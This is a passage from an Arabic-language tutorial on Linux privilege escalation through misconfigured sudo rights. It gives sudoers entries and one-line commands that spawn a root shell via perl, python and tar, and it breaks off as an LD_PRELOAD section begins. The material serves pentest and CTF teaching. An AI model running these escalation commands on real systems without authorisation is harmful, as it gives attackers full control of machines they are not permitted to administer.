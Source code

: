 🔹 يمكنك فتح shell كـ root باستخدام:

```bash
sudo perl -e 'exec "/bin/bash";'
```

☠️ **الخطورة**: `perl` يسمح بتنفيذ أكواد برمجية مباشرة.

---

# 🔹 **7. استغلال `sudo` باستخدام `python`**

🔸 إذا كان لديك الصلاحية لتشغيل `python`:

```bash
(ALL) NOPASSWD: /usr/bin/python3
```

🔹 يمكنك تشغيل shell كـ root باستخدام:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```



☠️ **الخطورة**: `python` يمكنه تشغيل أوامر مباشرة بصلاحيات root.

---

# 🔹 **8. استغلال `sudo` باستخدام `tar`**

🔸 إذا كان لديك الصلاحية لتشغيل `tar`:

```bash
(ALL) NOPASSWD: /bin/tar
```

🔹 يمكنك فتح shell بصلاحيات root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

☠️ **الخطورة**: `tar` يسمح بتنفيذ أوامر عند نقطة معينة.

---

# 🔹 **9. استغلال `sudo` باستخدام `LD_PRELOAD`**

🔸 بعض الأنظمة تسمح بتحميل مكتبات مخصصة عند تشغيل `sudo`. إذا كان `env_keep` مفعلاً، يمكننا استغلال `LD_PRELOAD` كما يلي:

## **📌 الخطوات**
